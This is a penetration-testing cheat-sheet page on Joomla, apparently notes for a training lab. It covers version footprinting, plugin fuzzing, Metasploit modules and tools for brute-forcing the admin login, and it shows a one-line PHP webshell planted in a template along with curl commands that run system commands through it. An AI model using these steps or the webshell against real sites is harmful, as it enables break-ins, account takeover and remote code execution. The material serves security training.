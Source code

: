```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Joomla

## 101

Joomla is typically used with `PHP` and `MySQL` (similar to [WordPress](wordpress.md)) and can be identified by its favicon:

<figure><img src="../../../.gitbook/assets/joomla_favicon.png" alt=""><figcaption></figcaption></figure>

Joomla's has the following user roles:

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Footprinting

### Manual <a href="#manually_enumerating_version" id="manually_enumerating_version"></a>

{% tabs %}
{% tab title="CMS" %}
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
{% endtab %}

{% tab title="Version" %}
Enumerate the version:

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain installs, we may be able to discover the version from other dirs or JS files:

{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -

curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

# Version enumeration via JS files
curl -s http://dev.inlanefreight.local/media/system/js

# Plugins might helps us estimate the version
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="droopescan" %}
[`droopescan`](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well:

{% code overflow="wrap" %}
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```
{% endcode %}
{% endtab %}

{% tab title="joomlascan" %}
[`joomlascan`](https://github.com/drego85/JoomlaScan) is an open source software that finds the components installed in Joomla CMS:

```bash
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```
{% endtab %}
{% endtabs %}

## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### Fuzzing

{% tabs %}
{% tab title="Manual" %}
Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)):

{% code overflow="wrap" %}
```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
The MSF's module [`joomla_plugins`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_plugins/) can be used to enumerate plugins:

```bash
msf > use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > show actions
        ...actions...
msf auxiliary(joomla_plugins) > set ACTION < action-name >
msf auxiliary(joomla_plugins) > show options
        ...show and set options...
msf auxiliary(joomla_plugins) > run
```
{% endtab %}
{% endtabs %}

### BFA <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

{% hint style="warning" %}
Joomla 3.2 stable release bought 2FA as part of the core install which adds another challenge to BFAs. However, this isn't enabled by default.
{% endhint %}

The default administrator account is `admin` and the password is set at install time:

{% tabs %}
{% tab title="MSF" %}
MSF's [`joomla_bruteforce_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_bruteforce_login/) module can be used for a BFA:

```bash
msf > use auxiliary/scanner/http/joomla_bruteforce_login
msf auxiliary(joomla_bruteforce_login) > show actions
        ...actions...
msf auxiliary(joomla_bruteforce_login) > set ACTION < action-name >
msf auxiliary(joomla_bruteforce_login) > show options
        ...show and set options...
msf auxiliary(joomla_bruteforce_login) > run
```
{% endtab %}

{% tab title="joomla-brute" %}
[`joomla-brute`](https://github.com/ajnik/joomla-bruteforce) is Joomla login bruteforcer:

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}


{% endtab %}

{% tab title="joombrute" %}
[`joombrute`](https://github.com/0rbz/JoomBrute) is a Joomla bruteforcer:

{% code overflow="wrap" %}
```bash
python joombrute.py --url http://site/administrator --username admin --wordlist passwords.txt
```
{% endcode %}
{% endtab %}

{% tab title="Nmap" %}
`nmap` has a [Joomla-specific NSE](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) as well as a [general one](https://nmap.org/nsedoc/scripts/http-form-brute.html) for BFA against HTTP forms:

{% code overflow="wrap" %}
```bash
# Basic usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute <target>

# Custom usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-joomla-brute.hostname=domain.com, http-joomla-brute.threads=3,brute.firstonly=true' <target>

# General NSE script
nmap --script http-form-brute -p 80 <host>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### RCE <a href="#code_execution" id="code_execution"></a>

We can upload a webshell as by editing a template (e.g. `error.php`) and adding a PHP webshell:

```php
# Webshell payload
system($_GET['c']);
```

<figure><img src="../../../.gitbook/assets/joomla_rce.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Interact with the webshell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?c=id
```
{% endcode %}

### Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
